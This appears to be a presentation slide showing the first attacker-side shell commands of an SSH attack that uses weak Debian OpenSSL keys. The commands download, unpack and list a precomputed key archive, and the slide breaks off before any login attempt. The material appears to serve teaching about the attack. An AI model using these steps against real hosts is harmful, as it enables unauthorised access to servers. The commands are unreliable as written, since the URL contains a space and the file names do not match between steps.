

# Exploiting SSH Through Weak Private Keys

attacker# wget https://digital offense.net/tool/debian-openssl/debian_ssh_dsa_1024_x86.tar.bz2
attacker# bunzip2 debian_ssh_dsa_1024-x86.tar.bz2
attacker# tar –xf debian_ssh_dsa_1024_x86.tar
attacker# cd dsa/1024/
attacker #ls